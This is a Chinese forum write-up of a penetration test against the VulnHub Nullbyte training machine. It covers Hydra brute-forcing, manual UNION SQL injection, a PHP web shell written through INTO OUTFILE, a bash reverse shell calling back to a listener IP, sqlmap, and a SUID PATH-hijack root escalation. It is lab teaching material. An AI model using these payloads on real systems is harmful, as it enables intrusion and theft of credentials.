# Linux渗透实战之Nullbyte靶场提权-先知社区

> **来源**: https://xz.aliyun.com/news/16348  
> **文章ID**: 16348

---

## 0x1 前言

### 一、浅谈

哈喽师傅们，这次又到了给师傅们分享文章的时候了，这篇文章呢主要是给师傅们以vulnhub中的Nullbyte靶场来给师傅们演示下通过Hydra表单暴力破解等操作拿到账户密码，然后中间以四种sql注入的方式给大家非常详细的操作了sql注入的一个过程，包括后面的拿权限等操作。  
以靶场的形式给师傅们展示，这样大家看到我的一些好的操作也就可以去操作，去复现，这个也是后面我写一些渗透测试文章相关的一个走向，因为之前写了很大实战中的案例分享，但是是真实的站点，也不好给大家实操，只能作为思路分享，但是我现在单独拿出一些好的靶场来给师傅们演示渗透测试，那么这样对于师傅们来讲是一个不错的体验！

### 二、靶机介绍

靶机精讲之Nullbyte。涉及Hydra表单暴力破解，John md5哈希暴力破解，手工SQL注入数据库信息猜解、SQL注入数据库写入一句话木马、写入反弹shell，使用SQLmap自动化注入，可谓SQL注入技能大赏。提权用具有suid权限的可执行文件，执行我们写入的shell的方式实现。很精彩的一台sql注入为主的靶机，值得研究和学习。



## 0x2 信息收集

### 一、主机探测

利用arp探测，发现靶机的IP地址是192.168.103.160

```
┌──(root-kali)-[~]
└─# arp-scan -l

```



### 二、端口扫描

利用nmap进行端口扫描，发现靶机开放了80、111、777、38389端口，其中这里的ssh服务的22端口改成了777端口，这里需要师傅们注意下。

```
┌──(root-kali)-[~]
└─# nmap -sS -A -p- 192.168.103.160

```



再利用nmap进行UDP端口的扫描，但是没有什么特别值得去挖掘的地方，从目前的情况来看，80端口是最值得去查看的。

```
┌──(root-kali)-[~]
└─# nmap -sU --top-port 20 192.168.103.160

```

* `-sU`: 这个选项告诉Nmap执行UDP扫描。
* `--top-port 20`: 这个选项告诉Nmap只扫描最常见的20个端口。Nmap会扫描UDP端口1到20，这些端口通常是最有可能开放的UDP端口。



### 三、漏洞扫描

利用nmap进行漏洞扫描挖掘，看看有没有什么新的发现。

```
┌──(root-kali)-[~]
└─# nmap --script=vuln -p80,111,777,38389 192.168.103.160

```

* `nmap`: 这是Nmap扫描程序的命令。
* `--script=vuln`: 这个选项告诉Nmap使用漏洞扫描脚本，以探测目标主机上的已知漏洞。
* `-p80,111,777,38389`: 这个选项指定了要扫描的端口号，包括80（常用的Web服务端口）、111（RPC端口）、777(ssh端口)和38389等。
* `192.168.103.160`: 这是目标主机的IP地址。



扫描发现，web的80端口下有/phpmyadmin/目录，以及扫描发现到这个靶场还可能存在CVE:CVE-2007-6750漏洞，这个漏洞大家可以上网查找一下，然后复现下。我这里复现过了，他这个漏洞的危害就是，可以利用MSF模块进行攻击，然后使http页面瘫痪，访问不了的作用，但是这里对我们的渗透测试没有什么特别大的价值。

## 0x3 渗透测试+信息收集

### 一、web渗透

访问web的80端口，就一张图片，右击查看网页源代码，就显示了一张图片名字，没有任何的提示了。还是没有什么发现，我们尝试进行目录扫描，看看有什么突破没有。





### 二、目录扫描

我们利用gobuster 进行扫描目录，发现扫描得到了/uploads、/phpmyadmin、/javascript目录，我们下面尝试进行访问扫描出来的目录。

```
┌──(root-kali)-[~]
└─# gobuster dir -u http://192.168.103.160 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

```

* `gobuster`: 这是目录和文件爆破工具。
* `dir`: 利用gobuster执行目录爆破。
* `-u http://192.168.103.160`: 要爆破的目标URL。
* `-w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`: 这个字典在kali中常用于进行目录爆破的，师傅们可以记下



访问/uploads/目录，提示这个目录下没有任何的文件，这就给我们一个提示，说不定是叫我们到时候上传上去呢，要不然不会无辜给出一个/uploas/目录的，这个我们后面多注意下。



访问/phpmyadmin/目录，发现需要进行登录，一般像这种情况，我们可以进行弱口令登录，有就有，没有就算了，因为实战中就是这莫个思路。

想到要账号密码，那我们得进行信息收集，把像密码的收集起来，然后进行登录尝试。



我们开始进行web渗透信息收集的时候，开始有张图片，我们可以按照CTF的思路进行分析，因为这张图片是在web网站的根目录下，所以我们可以直接进行下载。

```
┌──(root-kali)-[~/桌面]
└─# wget http://192.168.103.160/main.gif

```



利用exiftool 工具，得到一串特殊的字符串，看着很像密码，我们把这一串保存下来。

然后放到开始的/phpmyadmin/目录下，尝试root/admin的密码登录，但是发现都失败了，那kzMb5nVYJw到底是什么呢？

说不定是目录呢，这也有可能啊，我们目前也没有什么突破点，那就死马当活马医，尝试尝试把。

```
exiftool main.gif

```



还真的是一个目录，太神奇了，以前都都很少遇到！！！


我们尝试输入一个值，发现报错，我们看看网页源代码，提示说这个表单没有连接到mysql，密码没有那么复杂。

并且我们可以看到这个key是password类型，说明这是一个密码，我们可以尝试利用hydra进行密码爆破。




### 三、hydra爆破key值

利用hydra九头蛇进行爆破，其中rockyou.txt是kali中常用密码碰撞的字典，师傅们可以记录下。

爆破后得到密码是：elite

```
┌──(root-kali)-[~/桌面]
└─# hydra 192.168.103.160 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l routing -P /usr/share/wordlists/rockyou.txt

```

* `hydra`: 这是执行暴力破解攻击的工具。
* `192.168.103.160`: 这是目标主机的IP地址。
* `http-form-post`: 这个选项告诉Hydra使用HTTP POST方法来提交表单。
* `"/kzMb5nVYJw/index.php:key=^PASS^:invalid key"`: 这是指定了要攻击的目标URL和表单字段。在这个URL中，`kzMb5nVYJw/index.php` 是表单提交的路径，`key=^PASS^` 是表单字段，`^PASS^` 是Hydra将会尝试猜测的密码的占位符，而 `invalid key` 是当密码错误时，网站返回的响应。
* `-l routing`: 这个选项指定了要猜测的用户名，`routing` 在这里是一个示例用户名。
* `-P /usr/share/wordlists/rockyou.txt`: 这个选项指定了用于猜测密码的字典文件路径。在这里，使用了一个常见的密码字典文件 `/usr/share/wordlists/rockyou.txt`。



输入key后，得到下面的界面



## 0x4 sql注入大赏

### 一、手工联合注入大赏

我们右击查看源代码，发现了420search.php 文件，这个文件应该是与这个界面交互的一个文件。



我们随便输入一个123，提示我们成功查询到数据，并且我们发现这里存在GET传参，



我们把123删掉，发现了两个用户，以及别的信息，这很有可能存在sql注入漏洞，我们下一步就是可以进行sql注入漏洞尝试。



当我们输入双引号"，发现这个页面报错了，说明我们的猜想是正确的，就是存在sql注入



1、order by查看这个数据库的列数，我们发现3列正常回显，而4列的时候报错了，说明这个数据库就是3列。

```
" order by 1,2,3-- -

```





2、union select查看数据库，发现数据库的名是：seth

```
" union select 1,2,database()-- -

```



3、查看表，发现表名叫users

```
" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()-- -

```



4、查看列名，得到列：id,user,pass,position

```
" union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"-- -

```



5、查看user,pass内容，为了看清楚，我这里把user和pass分别查看，因为pass是一个字符串比较长。

```
" union select 1,2,group_concat(user) from users-- -

" union select 1,2,group_concat(pass) from users-- -

```





进行base64解码，然后得到一个看上去很像MD5的字符串。

```
┌──(root-kali)-[~/桌面]
└─# echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" |base64 -d c6d6bd7ebf806f43c76acc3681703b81

```

利用hash-identifier工具进行判断，说明就是MD5加密的

```
┌──(root-kali)-[~/桌面]
└─# hash-identifier "c6d6bd7ebf806f43c76acc3681703b81"

```



进行MD5解密，得到密码mega

<https://www.somd5.com/>



我们下面就可以进行ssh登录了

```
┌──(root-kali)-[~/桌面]
└─# ssh ramses@192.168.103.160 -p 777

The authenticity of host '[192.168.103.160]:777 ([192.168.103.160]:777)' can't be established.
ECDSA key fingerprint is SHA256:H/Y/TKggtnCfMGz457Jy6F6tUZPrvEDD62dP9A3ZIkU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.103.160]:777' (ECDSA) to the list of known hosts.
ramses@192.168.103.160's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug  2 01:38:58 2015 from 192.168.1.109
ramses@NullByte:~$ id
uid=1002(ramses) gid=1002(ramses) groups=1002(ramses)
ramses@NullByte:~$ whoami
ramses
ramses@NullByte:~$ uname -a
Linux NullByte 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17) i686 GNU/Linux

```

### 二、SQL注入写入一句话木马

采用另外一种方法进行注入获取登录凭据。我们尝试通过注入写入一句话php木马，一句话木马如下：

```
<?php system($_GET[cmd]);?>

```

```
实际上，注入时能写入文件的前提有两点：

1.数据库secure_file_priv参数为空，即我们具有写的权限。

2.需要知道写入文件位置的绝对路径。之前进行目录爆破的时候我们看到了目录uploads，这个目录很可能可以写入。

```

这里我们利用into outfile写入php木马文件到/var/www/html/uploads/目录下，然后利用GET传参，执行命令。

```
" union select "<?php system($_GET['a']); ?>", 2, 3 into outfile "/var/www/html/uploads/shell.php" -- -

```

我们发现命令执行成功了，



尝试读取一些敏感文件，存在注入的页面的源代码提示我们这个界面与420search.php这个后端文件有交互，那我们就尝试读取420search.php即可：

```
?cmd=cat%20/var/www/html/kzMb5nVYJw/420search.php

```



得到：数据库的账号为root，密码为sunnyvale

那么我们就可以利用这个账号密码进行登录/phpmyadmin/了



跟我们第一种方法一样，都拿到了用户以及密码的加密字符串，解密的方式都一样，我这里就不再给师傅们演示了。

### 三、SQL注入写入反弹shell

我们这个靶机的那个存在sql注入界面的地方，我们第二种方法是以写入php木马执行文件，然后进行执行命令，那么我们可以执行命令，我们不就可以直接写入反弹shell的木马，然后直接迁移shell了。（下面的是监听的IP，也就是你自己的kali机器的IP地址）

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.103.129/1234 0>&1'"); ?>

```

我们同样可以通过注入的方式直接把这行代码写入/uploads/目录，命名为 nc.php，注入语句如下：

(特别注意由于php语句是在双引号内，因此php语句中出现的双引号需要加\进转义)

```
" union select "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/192.168.103.129/1234 0>&1'\"); ?>", 2, 3 into outfile "/var/www/html/uploads/nc.php" -- -

```

先在kali上进行监听，然后再访问/uploads/nc.php文件，就可以成功反弹shell了。


然后切换到/var/www/html/kzMb5nVYJw目录下，就可以跟第二种方法一样利用账号密码，然后拿到ssh远程账号和密码，然后再进行提权操作。



### 四、脚本小子，SQLmap一把梭

利用sqlmap跑脚本，就不带师傅们讲太多了，只要找到了注入点，直接用脚本的命令跑就好了。

```
┌──(root-kali)-[/usr/share/wordlists]
└─# sqlmap -u "http://192.168.103.201/kzMb5nVYJw/420search.php?usrtosearch=1" --dump --batch

```



得到的结果和开始前三种方法都是一样的，得到ssh登录的shell

```
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+

```

密码，先base64解密，然后再md5解密，

得到密码是：omega



## 0x5 提权

### 一、ssh登录

```
┌──(root-kali)-[~]
└─# ssh ramses@192.168.103.160 -p 777

  密码omega

```



### 二、SUID提权

我们进行sudo -l，查看定时任务都没有发现什么有价值的信息，但是我们查看具有**suid权限**的，也就是权限中具有**S**位，说明该文件运行时具有其属主的权限，就是**root**的权限。



确实是具有S权限的，也就是root权限的，我们可以利用执行这个命令，然后提权。

```
ramses@NullByte:~$ ls -la /var/www/backup/procwatch
-rwsr-xr-x 1 root root 4932 Aug  2  2015 /var/www/backup/procwatch

```

切换到/var/www/backup目录下，查看文件详细内容



尝试用运行procwatch，看看发生了什么：

```
ramses@NullByte:/var/www/backup$ ./procwatch
  PID TTY          TIME CMD
 1390 pts/0    00:00:00 procwatch
 1391 pts/0    00:00:00 sh
 1392 pts/0    00:00:00 ps

```

发现貌似还执行了两个命令，sh可能与shell相关，ps可能与进程相关。此时我们的提权思路就是将提权的代码写入procwatch的相关文件中，而这个操作与sh和ps相关，这样在执行procwatch的时候，由于procwatch具有s权限，就可以以root身份运行，从而触发提权。

首先建立一个软连接，将ps连接到/bin/sh，这样在执行procwatch的时候，无论是sh还是ps都会把root的sh（shell）带出来：

```
ln -s /bin/sh ps

```


然后我们修改环境变量，将当前目录.追加到环境变量的最开始：

```
export PATH=.:$PATH

```

然后我们运行procwatch，由于procwatch文件具有s权限，会以属主root运行，通过前面的操作可知，运行procwatch会触发sh。因此就相当于以root启动了shell，应该就可以提权了。

```
ramses@NullByte:/var/www/backup$ ./procwatch
  PID TTY          TIME CMD
 1390 pts/0    00:00:00 procwatch
 1391 pts/0    00:00:00 sh
 1392 pts/0    00:00:00 ps
ramses@NullByte:/var/www/backup$ ln -s /bin/sh ps
ramses@NullByte:/var/www/backup$ ls -la
total 20
drwxrwxrwx 2 root   root   4096 Mar 10 18:00 .
drwxr-xr-x 4 root   root   4096 Aug  2  2015 ..
-rwsr-xr-x 1 root   root   4932 Aug  2  2015 procwatch
lrwxrwxrwx 1 ramses ramses    7 Mar 10 18:00 ps -> /bin/sh
-rw-r--r-- 1 root   root     28 Aug  2  2015 readme.txt
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH
ramses@NullByte:/var/www/backup$ ./procwatch
# id
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)

```

成功拿下了这台靶机！！！



## 0x6 总结

这篇文章到这里就给师傅们分享完毕了，这个靶机还是蛮不错的，一个很完整的渗透测试流程展现出来了，漏洞还是蛮多的，适合大部分师傅们上手操作，本文的wp写的也蛮详细的，其中sql注入写了四种方法，建议师傅们打这个靶场之前先不要看wp解析，先打完再看，这样渗透测试的过程可以更加清晰！
